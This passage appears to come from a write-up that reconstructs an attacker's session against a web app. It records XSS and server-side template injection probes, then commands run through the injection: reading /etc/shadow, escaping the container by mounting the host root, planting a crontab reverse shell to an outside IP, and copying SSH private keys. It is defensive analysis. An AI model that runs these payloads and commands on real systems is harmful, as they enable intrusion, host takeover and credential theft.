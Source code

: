 For every cookie in the list above the server returned the corrected `guest` cookie except for the last one where no cookie was returned although it's not clear to us why this happened since we cannot reproduce this.
After failing again the attacker moves on. 

## The Page Not Found Handler

The attacker then decides to try a couple of non existing endpoints `/private` `/fdssfdf` and `test`. 
Presumably looking for a chance to inject code. 
Since the page not found error response included the requested endpoint the attacker then tested if an XSS attack is possible by acessing `/test&lt;script&gt;alert(&quot;hello&quot;)&lt;/script&gt;`
which sucedded since the returned page contained the injected code. This is not a real XSS vulnerability however since this content is not displayed to other users.

- `/private` nothing. possibly looking for injection vulnerabilities
- `/fdssfdf` nothing. possibly looking for injection vulnerabilities
- `/test` nothing. possibly looking for injection vulnerabilities
- `/test<script>alert("hello")</script>` xss injection in the form of an hello broswer pop-up
- `/test{{ 1+1 }}` possibly testing remote code execution
- `/test{{ __globals__ }}` tries to obtain information about the app and system
- `/test{{ request.application}}` tries to obtain information about the app and system
- `/test{{ request.application.__globals__ }}` tries to obtain information about the app and system
- `/test{{ (request.application.__globals__.__builtins__.__import__('os')['popen']('id') }}` internal server error (probably looking for a vulnerability here)
	+ From this point on, the attacker knows how to run commands. To make this reproduction more readable the boilerplate is ommited.
	+ Commands are ran by accessing `/test{{ (request.application.__globals__.__builtins__ .__import__('os')['popen']('<command>') }}`, where `<command>` is what the attacker executed (the strings on the remaining of this list).
- `id` uid=0(root) gid=0(root) groups=0(root), which indicates that the container is running with root previleges.
- `ls` lists the contens of `/app` (inside the docker container)
- `cat app.py` fetches the app itself
- `cat auth.py` seeing that `app.py` imports this file, fetches it's contents as well
- `cat /etc/passwd`
- `cat /etc/shadow`
- `cat /proc/mount` fetches the devices mounted. Possibly looking for drives or docker containers.
- `find / ` lists all the file system
- `touch .a` create an empty file called `.a`
- `ls -la .a` Tests permissions for file, -rw-r--r-- 1 root root
- `ls -la /tmp/.a` tests permissions for parent directories
- `ls -la /root/`
- `ls /home/*` lists all users (?)
- `find / -perm -4000` checks for which files on the file system the user has r and w permissions
- `env` list environment variables
- `docker ps` list running docker containers
- `apt update`
- `apt install -y docker.io ` install docker inside the container
- `docker ps` list running docker containers (the attacker realizes he can see it's own container and thus can escape it)
- `docker run --rm -t -v /:/mnt busybox /bin/ls /mnt`
- `docker run --rm  -v /:/mnt busybox /bin/find /mnt/`
- `find / -perm -4000 ` finds which files have `setuid`.
- `docker run --rm  -v /:/mnt python python -c "f=open('/mnt/etc/crontab', 'a'); f.write('*/10 * * * * root 0<&196;exec 196<>/dev/tcp/96.127.23.115/5556; sh <&196 >&196 2>&196'); f.close(); print('done')" 2>&1` Inject reverse shell payload in crontab file (this doesn't work properly) so no reverse shell access
- `docker run --rm -v /:/mnt busybox cat /mnt/root/.bash_history` In the following commands the attacker just makes a temporary container to read files. The container is set to be deleted in the end of every comand.
- `docker run --rm  -v /:/mnt busybox cat /mnt/root/.ssh/id_rsa  /mnt/root/.ssh/id_rsa.pub`
- `docker run --rm  -v /:/mnt busybox ls /mnt/home `
- `docker run --rm  -v /:/mnt busybox cat /mnt/home/dev/.ssh/id_rsa /mnt/home/dev/.ssh/id_rsa.pub `
